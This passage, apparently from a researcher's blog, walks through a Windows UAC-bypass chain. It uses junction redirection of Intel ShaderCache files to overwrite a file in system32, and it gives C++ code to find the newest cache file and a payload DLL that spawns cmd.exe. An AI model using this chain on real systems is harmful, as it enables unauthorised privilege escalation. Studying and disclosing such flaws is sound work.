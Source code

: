 ```cpp
std::wstring GetMostRecentFile(const std::wstring& directoryPath) {
    namespace fs = std::filesystem;

    std::wstring mostRecentFile;
    fs::file_time_type latestTime;

    for (const auto& entry : fs::directory_iterator(directoryPath)) {
        if (!entry.is_regular_file()) continue;

        auto ftime = entry.last_write_time();
        if (mostRecentFile.empty() || ftime > latestTime) {
            latestTime = ftime;
            mostRecentFile = entry.path().filename().wstring();
        }
    }

    return mostRecentFile;
}

std::wstring dir = L"C:\\Users\\robbi\\AppData\\LocalLow\\Intel\\ShaderCache";
initialcheck = GetMostRecentFile(dir);
```

BAM!  At this point, I have all that I need to:

- Change permissions on all files to read-only and create a loop to identify and continue to kill all processes still using files in our ShaderCache directory, and then delete all files in the direcory 
- Create a Junction
- Redirect the most recent file written to the directory by TaskManager to a destination we configure (I'll showcase that soon)
- Overwrite this file (I use copy /F myfile c:/windows/system32/destfile)
- Execute the file and bypass UAC!  Teaser alert:  I copy a DLL that executes cmd.exe

**here's the code for the DLL I'll be copying over the destination dll btw:**

```cpp
#include "pch.h"

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        WinExec("cmd.exe", 1);
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
